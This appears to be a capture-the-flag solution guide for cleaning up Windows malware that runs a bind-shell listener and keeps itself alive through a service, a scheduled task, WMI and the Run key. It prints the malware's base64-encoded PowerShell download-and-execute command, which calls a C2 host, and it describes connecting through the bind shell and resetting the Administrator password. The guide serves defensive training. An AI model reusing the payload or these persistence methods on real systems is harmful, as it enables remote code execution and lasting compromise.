


# I HAVE THE POWERRRRR! (shell) 

_Solution Guide_

## Overview

The system has been infected with a persistent malware that's opening up a bind shell listener.  Stop and remove the persistence methods and close the listener.  The persistence methods recreate one another.

>**Note:** This challenge has a number of tasks that can be remedied in a couple different sequences.  Each malware mechanism recreates itself and others, so deleting one at a time will not work.  They need to be scripted, or the recreation cycle needs to be broken. The mechanisms that need to be fixed for grading are in grading order:

1. Listener Disabled
2. Windows Service
3. Scheduled Task
4. WMI persistence
5. "Run" Registry value

Mechanism 2-5 each contact C2 every minute and run a remote script that recreates all the mechanisms and opens the listener.

There are multiple ways to find the artifacts using C:\ProgramData\chocolatey\bin\autorunsc64.exe, Or with powershell search commands, or from CMD.exe

## Solution

The easiest machine connection is through the listener on 3333 that the malware leaves open.  This conveniently gives a powershell prompt.

``` 
netcat 10.5.5.79 3333
```


First thing after gaining access, it's probably a good idea to give yourself ssh or another method of access since we want to kill the listener we're currently connected to. I already know grading uses SSH, so that's a way to remotely access.  I can't change the "user" account, so I'll see what else is on there.

```
net user
```



Let's change the password on the Administrator account:

```
net user Administrator Password1234
```


Now we can SSH:

```
SSH Administrator@10.5.5.79
```

```
Powershell
```


Let's see what's listening on which port

```
netstat -ano -p tcp
```


Find out the process and path using the 3333 port

``` 
Get-Process -id 3416 |select Path
```
>**Note:** Killing this process will pass grading check #1, but you will also get removed if you're connected on port 3333.

So as denoted by the :search.exe portion of the path, it looks like the program is running in an Alternate Data stream.  Let's see what else is in the folder it's running from:


Let's take a look at the python script

```
Get-Content .\service.py
```


It's running an encoded powershell command every minute.

Decode it:

```
$encoded = 'SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4ANQAuADUALgA1ADcALwByAHUAbgBtAGUALgBwAHMAMQAnACkAKQA='                                                                                                      

$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))

$decoded
```


The command is running a script.  You can download and examine the script to your console if you'd like.

The script is creating the listener by downloading the search.exe, but it's also creating a Scheduled Task, a Service, and a WMI command trigger.

You can write your own script to remove all these at once, or you can see the script is only checking for the presence of the objects before creating them.  

I will disable them to keep the processes form recreating the persistence.

## Windows Service Persistence

The Windows service can be stopped or disabled as the script only checks if it exists:
```
Stop-Service -Name "search helper"
```
The above command stops the service
```
Set-Service -Name "search helper" -StartupType Disabled
```
The above command disables the service. 
You can see status with the Get-Service command:
```
Get-Service -Name "search helper"
```
Adding "| Select StartType" to the above command will verify it's Disabled 
```
Get-Service -Name "search helper' | Select Starttype
```


## Scheduled Task Persistence

The Script is only checking if the scheduled task exists, so once again we can disable it:

```
Disable-ScheduledTask -Taskname "Start Jobs"
```


## WMI Persistence

If you examine the remote powershell script, you'll see that the wmi object checks are only on the EventFilter and EventConsumer, but not the binding.  Let's break it:

```
Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Run Helper%'" | Remove-WmiObject -Verbose
``` 


Now that all the persistence methods have been stopped, you can feel free to remove the above persistence objects, but the script does not require this for grading.

## Registry run value Persistence

To see the registry keys, run:
```
Get-Item -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\'
```
You'll note right away the key we want to delete:


Run the command to remove:
```
Remove-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\' -Name "Helper" 
```


